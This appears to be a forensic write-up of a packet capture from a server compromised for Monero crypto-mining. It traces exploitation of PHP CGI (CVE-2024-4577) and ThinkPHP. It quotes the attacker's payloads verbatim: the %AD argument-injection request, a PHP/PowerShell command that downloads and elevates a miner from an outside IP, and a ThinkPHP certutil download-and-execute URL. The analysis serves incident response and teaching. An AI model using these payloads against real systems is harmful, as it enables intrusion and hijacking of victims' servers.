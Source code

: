 

###  Unauthorized Crypto-Mining on Public Servers

Over the past 24 hours, the IT department detected a drastic increase in CPU and memory usage across several publicly accessible servers. Initial investigation suggested unauthorized crypto-mining activity. A packet capture (PCAP) from one of the affected servers was provided for forensic analysis.

---

### 🔍 Analysis Overview

#### 🔹 **Step 1: Identifying Initial Access – PHP CGI Vulnerability**

A review of HTTP traffic in the PCAP revealed evidence of exploitation targeting the **PHP CGI vulnerability \[CVE-2024-4577]**:

* **CVE ID**: CVE-2024-4577
* **Published**: June 6, 2024
* **CVSS Score**: 9.8 (Critical)
* **Affected Software**: PHP in CGI mode (primarily on Windows systems)
* **Exploit Method**: Abuse of Unicode character misinterpretation, particularly the **0xAD** (`%AD`) character, which Windows misinterprets as `-`.

**Observed exploit request:**

```
POST /index.php?%ADd+allow_url_include=1+-d+auto_prepend_file=php://input HTTP/1.1
```

This indicates the attacker likely uploaded and executed malicious PHP payloads by bypassing restrictions using the malformed `%AD` character.

---

#### 🔹 **Step 2: Malicious File Upload & Execution**

After gaining access, the attacker uploaded scripts and executables:

* A **PowerShell script** (`1.txt`, later renamed to `1.ps1`) gathered **CPU and memory info**:

  ```
  Intel(R) Core(TM) i7-6700HQ
  ```

* Next, the attacker uploaded a binary `2.txt`, saved as `2.exe`, which turned out to be a **crypto-miner**:

  * [VirusTotal Behavior Report](https://www.virustotal.com/gui/file/01c9940b468ce2a58f2bc52f5c8b7d0310451c994d798879ff653d92fbaf8719/behavior)

* Execution command embedded in PHP:

  ```php
  <?php system('powershell -ExecutionPolicy Bypass -Command "& {Invoke-WebRequest -Uri http://1.80.23.4:8000/2.txt -OutFile C:\Windows\Temp\2.exe; Start-Process C:\Windows\Temp\2.exe -Verb RunAs}"'); ?>
  ```

  * The `-Verb RunAs` ensures **elevated execution privileges**.

---

#### 🔹 **Step 3: Lateral Movement via ThinkPHP**

Further review of traffic revealed exploitation attempts targeting **ThinkPHP**:

**Malicious payload:**

```
http://89.17.51.230/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd.exe /c certutil -urlcache -split -f http://36.96.48.3:19490/spread.txt C:\ProgramData\spread.exe && C:\ProgramData\spread.exe
```

* **Downloaded file**: `C:\ProgramData\spread.exe`
* **Execution**: Immediately run after download using `cmd.exe`
* This executable is likely another instance of the cryptominer.

---

#### 🔹 **Step 4: Monitoring & Resource Utilization**

The attacker monitored system performance via plain-text communication over TCP, notably with IP:

* **Remote IP**: `218.244.58.70`
* **Port**: `9011`
* The traffic revealed:

  ```
  CPU(Stop)|0.02|6%|0.00|auto.c3pool.org:19999|NO
  ```

This confirms the attacker's intent to observe mining performance and system stability remotely.

---

#### 🔹 **Step 5: Miner Identification**

By inspecting binary strings (e.g., `strings RCEMiner.pcap | grep pool`), we found:
using grep -i XMRig is enough i tried it first but forget the -i 

```
-o stratum+tcp://auto.c3pool.org:19999 -u SN -p 1
-o stratum+tcp://auto.c3pool.org:19999 -u SB250 -p 1
```

Further inspection of traffic to port `19999` revealed:

```json
{
  "id":1,
  "jsonrpc":"2.0",
  "method":"login",
  "params":{
    "login":"SN",
    "pass":"1",
    "agent":"XMRig/5.5.0 (Windows NT 10.0; Win64; x64) libuv/1.31.0 msvc/2015",
    "algo":["rx/0","cn/1",...]
  }
}
```

**Key Confirmation:**

* **Miner**: XMRig
* **Version**: 5.5.0
* **Mining Pool**: `auto.c3pool.org:19999`
* **Algorithm**: RandomX / CryptoNight variants
* **OS**: Windows 10 x64


###  Conclusion

The attacker exploited a critical PHP CGI vulnerability (CVE-2024-4577) and ThinkPHP to upload and execute a Monero cryptocurrency miner (**XMRig v5.5.0**). Remote monitoring was established, and multiple binaries were deployed using PowerShell and PHP wrappers. The use of obfuscated parameters and Unicode abuse highlights the sophistication of this campaign.

